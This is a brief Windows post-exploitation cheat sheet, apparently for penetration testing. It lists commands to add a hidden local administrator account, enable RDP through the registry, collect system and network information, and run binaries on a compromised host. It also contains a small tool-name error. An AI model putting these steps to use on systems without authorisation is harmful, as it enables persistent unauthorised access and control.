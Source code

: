 # Post Exploitation Cheat Sheet
This module will contain all Windows/DOS post exploitation items that I use on a daily basis.
## Add Admin User
1. Add the User:
* `net user /add [username] [password]`
2. Add the usedr to the Admin Group:
* `net localgroup administrators [username] /add`
## Enable RDP (XP+)
This command will enable RDP on a server which the `reg` command is installed. You must have System access to do so, and RDP must be installed.
1. To enable RDP (must be Windows XP or above as the `reg` command will be used.)

* `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
## System / Network Info
These commands will return any system or network information and should be done during post exploitation.
* `netstat -ano` OR JUST `netstat -an`
* `systeminfo` (XP+)
## Command Execution
To run a binary on the FS of the compromised system from os-shell> in nmap:
`start /max /d"C:\Program files\foo\" ba.exe -somearguments`
